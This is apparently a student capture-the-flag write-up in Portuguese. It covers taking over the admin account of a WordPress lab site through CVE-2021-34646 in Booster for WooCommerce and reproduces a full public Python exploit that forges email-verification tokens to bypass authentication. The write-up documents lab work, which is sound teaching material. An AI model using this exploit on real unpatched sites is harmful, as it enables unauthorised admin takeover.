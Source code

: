 # Exploração do CTF EXTRA Secure WP Hosting

### Tentamos usar sql injection para dar login na conta do admin mas sem sucesso:

### Como continuamos a achar que era por aí que tinhamos de ir fomos ver as versões do wordpress do WooCommerce e do plugin do WooCommerce. Encontramos isso na informação adicional do produto "Wordpress Hosting"

![Compilar](fotos/versaowp.png)

### Procuramos se existiam vulnerabilidades conhecidas para estas versões. E encontramos o CVE "CVE-2021-34646" relacionado com o Plugin do Woocommerce que diz que as versões até à 5.4.3 são vulneráveis à autenticação através de Bypass.

![Compilar](fotos/cve202104646.png)

### Neste mesmo site encontramos tambem um exploit publico: 

 
```
    # Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
    # Date: 2021-09-16
    # Exploit Author: Sebastian Kriesten (0xB455)
    # Contact: https://twitter.com/0xB455
    #
    # Affected Plugin: Booster for WooCommerce
    # Plugin Slug: woocommerce-jetpack
    # Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
    # Affected Versions: <= 5.4.3
    # Fully Patched Version: >= 5.4.4
    # CVE: CVE-2021-34646
    # CVSS Score: 9.8 (Critical)
    # Category: webapps
    #
    # 1:
    # Goto: https://target.com/wp-json/wp/v2/users/
    # Pick a user-ID (e.g. 1 - usualy is the admin)
    #
    # 2:
    # Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
    #
    # 3:
    # Check-Out  out which of the generated links allows you to access the system
    #
    import requests,sys,hashlib
    import argparse
    import datetime
    import email.utils
    import calendar
    import base64

    B = "\033[94m"
    W = "\033[97m"
    R = "\033[91m"
    RST = "\033[0;0m"

    parser = argparse.ArgumentParser()
    parser.add_argument("url", help="the base url")
    parser.add_argument('id', type=int, help='the user id', default=1)
    args = parser.parse_args()
    id = str(args.id)
    url = args.url
    if args.url[-1] != "/": # URL needs trailing /
            url = url + "/"

    verify_url= url + "?wcj_user_id=" + id
    r = requests.get(verify_url)

    if r.status_code != 200:
            print("status code != 200")
            print(r.headers)
            sys.exit(-1)

    def email_time_to_timestamp(s):
        tt = email.utils.parsedate_tz(s)
        if tt is None: return None
        return calendar.timegm(tt) - tt[9]

    date = r.headers["Date"]
    unix = email_time_to_timestamp(date)

    def printBanner():
        print(f"{W}Timestamp: {B}" + date)
        print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
        print("We need to generate multiple timestamps in order to avoid delay related timing errors")
        print("One of the following links will log you in...\n")

    printBanner()



    for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
            hash = hashlib.md5(str(unix-i).encode()).hexdigest()
            print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
            token='{"id":"'+ id +'","code":"'+hash+'"}'
            token = base64.b64encode(token.encode()).decode()
            token = token.rstrip("=") # remove trailing =
            link = url+"my-account/?wcj_verify_email="+token
            print(link + f"\n{RST}")

```
### No inicio do exploit é nos dada uma indicação para ir ao site: https://target.com/wp-json/wp/v2/users/ e escolher o user-ID. 

### Fomos então ao site: http://ctf-sp.dcc.fc.up.pt:5001/wp-json/wp/v2/users/ e obtivemos que o id do admin era 1.

![Compilar](fotos/userjsonsite.png)

### Fizemos o ataque seguindo os passos do exploit "Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1"

![Compilar](fotos/linksadmin.png)

### Carregando no primeiro link observamos que estavamos logados como admin.

![Compilar](fotos/adminsucesso.png)

### Exploramos a área pessoal "Dashboard", "Orders", "Downloads","Adresses"... chegando até "Edit" que nos levou para a página de edição e de administração do site onde encontramos uma área de Posts com o seguinte post que continha a flag:

## flag{please don't bother me}

![Compilar](fotos/flagfim.png)


